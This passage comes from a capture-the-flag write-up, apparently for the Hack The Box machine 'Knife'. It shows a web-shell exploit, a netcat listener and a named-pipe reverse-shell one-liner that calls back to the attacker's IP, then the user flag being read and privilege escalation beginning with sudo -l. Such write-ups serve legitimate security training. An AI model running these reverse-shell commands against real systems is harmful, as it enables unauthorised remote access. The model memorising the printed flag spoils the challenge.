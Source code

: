 Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$

After running the exploit, we spawn a web shell. This is a very good start, but before we do anything we want to upgrade it to a full reverse shell. This is a multi-step process.

1. Set up a nc listener:

~/Documents/htb/knife » nc -lvp 4321                                                        1 ↵ connor@kali                
listening on \[any\] 4321 ...

2\. Run a reverse shell from the target host:

~/Documents/htb/knife » python3 phpDev.py                                                       connor@kali
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4321 > /tmp/f

3\. Go back to the nc listener. If everything was done right, you'll have a reverse shell:

~/Documents/htb/knife » nc -lvp 4321                                                        1 ↵ connor@kali                
listening on \[any\] 4321 ...                                                                                                
10.10.10.242: inverse host lookup failed: Unknown host                                                                     
connect to \[10.10.14.41\] from (UNKNOWN) \[10.10.10.242\] 51784                                                               
/bin/sh: 0: can't access tty; job control turned off                                                                       
$ id  
uid=1000(james) gid=1000(james) groups=1000(james)
$ pwd
/
$ cd ~
$ pwd
/home/james
$ ls
config.rb
new.py
user.txt
$ cat user.txt
968595a8c9cabc248d0c10b806e552dd
$ 

Next we need to elevate to root. For this box, it can be found with one of the first methods of privilege escalation you should check for:

$ sudo -l
Matching Defaults entries for james on knife:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

